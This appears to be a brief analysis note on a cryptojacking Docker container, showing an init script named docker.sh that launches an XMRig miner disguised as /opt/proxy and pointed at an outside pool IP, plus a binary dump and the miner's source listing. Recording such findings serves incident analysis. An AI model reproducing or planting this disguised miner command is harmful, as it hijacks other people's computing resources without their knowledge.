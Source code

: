 # Update as of 03/14/2021

init script: `/bin/docker.sh`

```
# cat docker.sh


/opt/proxy --nicehash --cpu-affinity 0xf --donate-level=1 -o 95.142.46.73:443


```


Compiled miner: `/opt/proxy`


```
bash-5.0# head  -n 2 /opt/proxy
ELF>▒V@▒▒=@8
l▒%l▒%▒3▒3▒3▒▒▒<▒<▒<▒▒p{
▒_=▒o=▒o= ▒<▒<▒< P▒td▒v6▒v6▒v6▒▒▒▒Q▒tdR▒td▒<▒<▒<▒▒▒▒/lib/ld-musl-x86_64.so.1 yH▒▒▒Q@A%@H ▒0▒
bash-5.0#
```

XMRig Source : `/xmrig`


```
bash-5.0# ls /xmrig/
CHANGELOG.md    README.md       cmake           res
CMakeLists.txt  bin             doc             scripts
LICENSE         build           package.json    src

```
